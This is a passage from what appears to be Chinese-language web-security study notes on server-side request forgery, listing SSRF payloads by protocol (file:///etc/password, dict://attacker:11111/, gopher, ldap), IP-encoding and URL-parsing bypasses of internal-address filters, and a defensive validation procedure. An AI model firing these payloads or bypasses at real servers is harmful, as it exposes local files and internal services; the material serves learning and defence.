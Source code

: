 #### 利用协议

>   https://www.secpulse.com/archives/70471.html

接受ua为curl的时候，支持的协议有 [![img](https://camo.githubusercontent.com/f8aaaa140f6d6dab5d160188c330b7bae0768ab6/68747470733a2f2f7777772e73656370756c73652e636f6d2f77702d636f6e74656e742f75706c6f6164732f323031382f30342f31353233353035363435312e706e67)](https://camo.githubusercontent.com/f8aaaa140f6d6dab5d160188c330b7bae0768ab6/68747470733a2f2f7777772e73656370756c73652e636f6d2f77702d636f6e74656e742f75706c6f6164732f323031382f30342f31353233353035363435312e706e67)

使用`curl -v http://xx.com/ssrf.php?url=sxxx`

```
file://
ssrf.php?url=file:///etc/password
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
```

#### 漏洞修复

>   https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html

1.  检查是否为内网IP地址 绕过方法: 利用八进制IP地址绕过 利用十六进制IP地址绕过 利用十进制的IP地址绕过 利用IP地址的省略写法绕过 最好的做法：IP地址转换为整数再进行判断
2.  获取真正请求的host
    1.  如何正确的获取用户输入的URL的Host？ 最常见的就是，使用http://233.233.233.233@10.0.0.1:8080/、http://10.0.0.1#233.233.233.233这样的URL，让后端认为其Host是233.233.233.233，实际上请求的却是10.0.0.1。这种方法利用的是程序员对URL解析的错误，有很多程序员甚至会用正则去解析URL。使用urllib.parse可以解析真正的hostname
    2.  只要Host只要不是内网IP即可吗？ host可能为ip,可能为域名，利用xip.io绕过。方法：判断是否为http协议，获取url的host，再解析该host，将解析到的ip再进行检查
    3.  只要Host指向的IP不是内网IP即可吗？ 不一定，可能会30x跳转

归纳 解析目标URL，获取其Host 解析Host，获取Host指向的IP地址 检查IP地址是否为内网IP 请求URL 如果有跳转，拿出跳转URL，执行1

### 在浏览器端，Referer可以篡改吗？

通过插件修改，一般抓包修改

### xss盲打到内网服务器的利用

### xss代码层防御

## 文件上传下载遍历漏洞

### 原理

1.  容器漏洞，解析漏洞
